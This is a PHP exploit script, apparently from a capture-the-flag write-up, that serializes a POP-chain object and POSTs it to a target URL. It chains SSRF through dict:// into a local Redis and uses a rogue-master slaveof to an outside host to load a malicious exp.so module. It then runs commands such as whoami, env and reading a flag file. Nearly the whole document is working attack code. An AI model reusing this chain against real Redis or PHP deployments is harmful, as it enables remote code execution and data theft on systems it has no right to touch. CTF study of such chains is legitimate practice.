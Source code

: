 ```php
$a = new Ha();
$a -> start2 = "o.0";
$a -> start1 = new Rd();
$a -> start = ["POC" => "0.o"];
$a -> start1 -> cl = new Er();
// $a -> start1 -> cl -> Flag = base64_encode("dict://127.0.0.1/info");

$payloadArray = [
    "config set dir /tmp/",     // "config:set:dir:/tmp/"
    "config set dbfilename exp.so",
    "slaveof 172.2.0.76 21000",
    "module load /tmp/exp.so",
    "slaveof no one",
    "system.exec 'whoami'",
    "system.exec 'env'",
    "system.exec 'ls /'",
    "system.exec 'cat /flag_is_here'"
];

$url = "http://hazelshishuaige.club:9116/index.php";

foreach ($payloadArray as $value) {
    # code...
    $payload = "dict://127.0.0.1:6379/" . $value;
    // echo $payload;
    $a -> start1 -> cl -> Flag = base64_encode($payload);
    $serPayload = serialize($a);

    sleep(2);

    $postData = [
        "pop" => $serPayload
    ];
    
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

    $response = curl_exec($ch);
    curl_close($ch);
    
    // echo $response;
    echo preg_replace('/<code>.*?<\/code>/s', "", $response);
};
```

最终运行效果
